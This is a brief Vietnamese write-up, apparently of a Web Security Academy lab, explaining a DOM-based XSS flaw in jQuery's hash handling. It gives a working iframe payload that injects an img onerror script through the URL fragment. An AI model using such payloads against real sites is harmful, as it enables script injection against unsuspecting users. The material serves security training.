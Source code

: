 Chào các bạn đây là đề bài nha
![Alt text](image-13.png)
Đây là một cơ chế của hàm TRONG jQuery dùng để tối ưu triair nghiệm người dùng tuy nhiên chúng ta có thể thực hiện injection nó bằng cách bắng theo 1 cái khung vào <iframe src="https://YOUR-LAB-ID.web-security-academy.net/#" onload="this.src+='<img src=x onerror=print()>'"></iframe>
thì khi người dùng vào này sẽ bị tấn công @@

Chúc bạn thành công